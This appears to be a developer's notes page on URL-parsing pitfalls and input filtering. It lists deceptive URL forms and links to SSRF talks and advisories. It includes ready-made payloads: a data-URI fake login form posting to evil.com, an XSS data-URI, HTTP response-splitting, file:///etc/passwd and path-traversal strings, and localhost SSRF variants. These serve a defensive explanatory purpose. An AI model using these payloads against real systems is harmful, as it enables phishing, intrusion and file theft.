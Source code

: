 - `http://example.com` and `http://example.com.` are the same, but could treated differently (ex: cookies). See [Why does putting a dot after the URL remove login information?](https://superuser.com/questions/1467958/why-does-putting-a-dot-after-the-url-remove-login-information/1468139#1468139)
- `http://evil.com/@good.com` the domain is `evil.com`
- `http://good.com%2f@evil.com/` the domain is `evil.com`
- `https://evil.com/..;@good.com:%344/` the domain is `evil.com`. [HOW FRCKN' HARD IS IT TO UNDERSTAND A URL?! - uXSS CVE-2018-6128 - YouTube](https://www.youtube.com/watch?v=0uejy9aCNbI)
- `http://1.1.1.1 &@2.2.2.2# @3.3.3.3` (with spaces) the host is `2.2.2.2` RFC 3986: "In some cases, extra whitespace (spaces, line-breaks, tabs, etc.) may have to be added to break a long URI across lines. The whitespace should be ignored when the URI is extracted"
	- [#HITBGSEC 2017 SG Conf D1 - A New Era Of SSRF - Exploiting Url Parsers - Orange Tsai - YouTube](https://www.youtube.com/watch?v=D1S-G8rJrEk)
	- [Anomalie 32085 : \[Security\] A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! - Python tracker](https://bugs.python.org/issue32085)
	- [Orange: How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE!](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
	- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
- `file://my.domain/tmp/example.html` the domain is `my.domain` (but often ignored)
- `https://accounts.youtube.com/accounts/SetSID?continue=https://www.google.com/amp/s/evil.com/evil.swf` (redirect to `evil.swf`) redirection (account login, etc.) don't know if the trusted target, has been compromized (or allow this kind of redirection)
- `http://good.com%0a%0a%0aTrust%20me.%20It%27s%20totally%20legit.%09%09%09%09%09%0a%0a%0a%0a%0a%0a%0a%0a@evil.com/` is a valid URL, but could be displayed in browser URL bar (or link hover) as `http://good.com`
- `http://x%0aContent-Length%3a99%0a%0a.good.com/` and `http://good.com%00.evil.com/` (null char wrongly used to break the domain as `victim.website`). See [Webkit URLs](https://alf.nu/WebkitURLs)
- `xn--wkd-8cdx9d7hbd.org` is not equal to `wіkіpеdіа.org`, but look the same in browser address bar. It's a valid [IDN](https://en.wikipedia.org/wiki/Internationalized_domain_name#ASCII_spoofing_concerns) which use [punycode](https://en.wikipedia.org/wiki/Punycode) encoding
- on `http://good.com` URL `//evil.com` has the domain `evil.com`
- filter out data URIs:
	* `data:text/html;charset=UTF-8,https://good.com/some/long/path/follwed/by/html/<html><body><form action=http://evil.com><button>Fake re-login form</button></form></body></html>`
	* `data:text/html;charset=UTF-8,alert(1)/*,<svg%20onload=eval(unescape(location))><title>*/;alert(2);function%20text(){};function%20html(){}`
	Retect to parameter `http://victim.com/?param=value%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>`
	https://www.owasp.org/index.php/Testing_for_HTTP_Splitting/Smuggling_(OTG-INPVAL-016)
- filter out file URIs. If you get its content (like PHP `file_get_contents()`): `file:///etc/passwd`
	* [If your code accepts URIs as input..](https://blog.steve.fi/If_your_code_accepts_URIs_as_input__.html)
- `http://e­x­a­m­p­l­e­.­com` is not `http://example.com` (use SHY - U+00AD chars)
	> Soft hyphens have been used to obscure malicious domains or URLs in e-mail spam.
	[Soft hyphen — Wikipedia](https://en.wikipedia.org/wiki/Soft_hyphen#Security_issues)

	Many browsers ignore SHY chars in URL. That means `http://e­x­a­m­p­l­e­.­com` will be interpreted as `http://example.com`
- Some chars in file path are not supported on Windows: [Git for Windows accidentally creates NTFS alternate data streams](http://latkin.org/blog/2016/07/20/git-for-windows-accidentally-creates-ntfs-alternate-data-streams/) with char `:` in filename
- `urlencode()` and `rawurlencode()` for URLs `$url = 'http://localhost/' . rawurlencode($page) . '?foo=' . urlencode($foo) . '&bar=' . urlencode($bar)`. The same with `encodeURI()`, `encodeURIComponent()`
	See also [`http_build_query()`](http://php.net/manual/en/function.http-build-query.php) and [`parse_url()`](http://docs.php.net/manual/en/function.parse-url.php)
- `snprintf(&s, 0x80u, "texts/%s.json", ".////////////////////////////////////////////////////////////////////////////////////////../../../../../etc/passwd")` overflow the 128 byte string value
- `http://localhost`, `http://0`, `http://[::0]`
- [Google Safe Browsing  |  Google Developers](https://developers.google.com/safe-browsing/) - Chrome, Firefox, Safari, etc. use this service to alert users for fraudulent websites
